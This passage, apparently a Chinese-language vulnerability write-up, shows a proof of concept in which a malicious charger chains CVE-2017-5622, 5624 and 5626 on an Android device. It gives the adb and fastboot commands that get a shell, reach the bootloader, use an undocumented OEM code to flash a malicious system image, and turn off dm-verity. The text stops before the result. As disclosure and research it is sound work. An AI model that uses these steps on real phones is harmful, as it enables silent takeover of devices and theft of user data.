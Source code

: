 **PoC 2：恶意充电器替换system分区（CVE-2017-5622/4/6）**

这几个漏洞可以组合利用，在不向用户发出任何警告时，获得特权SELinux域中的代码执行权限，也可以访问原始用户数据。为了演示这一利用场景，我修改了system分区，添加了一个特权应用。为了添加特权应用，我们可以将目标APK文件放置于“/system/priv-app/&lt;APK_DIR&gt;”目录，这样该APK就会被添加到priv_app域（特权应用域）中，同时不要忘了使用chcon命令处理这个APK文件及它所处的文件目录。

同样的场景中，受害者将处于关机状态的设备连接至恶意充电器，攻击者通过CVE-2017-5622漏洞获取ADB会话，重启设备进入fastboot模式：



```
&gt; adb shell
android:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:shell:s0
android:/ $ reboot bootloader
&gt; fastboot devices
cb010b5a        fastboot
```

利用CVE-2017-5626漏洞，恶意充电器可以将原始system分区替换为恶意的system分区：



```
&gt; fastboot flash system evilsystem.img
target reported max download size of 440401920 bytes
erasing 'system'...
FAILED (remote: Partition erase is not allowed)
finished. total time: 0.014s
&gt; fastboot oem 4F500301
OKAY
[  0.020s] finished. total time: 0.021s
&gt; fastboot flash system evilsystem.img
target reported max download size of 440401920 bytes erasing 'system'...
OKAY [  0.010s]
...
sending sparse 'system' 7/7 (268486 KB)...
OKAY [  6.748s]
writing 'system' 7/7...
OKAY [  3.291s]
finished. total time: 122.675s
```

使用CVE-2017-5624漏洞，恶意充电器可以禁用dm-verity保护：



```
&gt; fastboot oem disable_dm_verity
...
OKAY
[  0.034s] finished. total time: 0.036s
```

我们可以看到应用的确处于特权应用上下文的环境中：

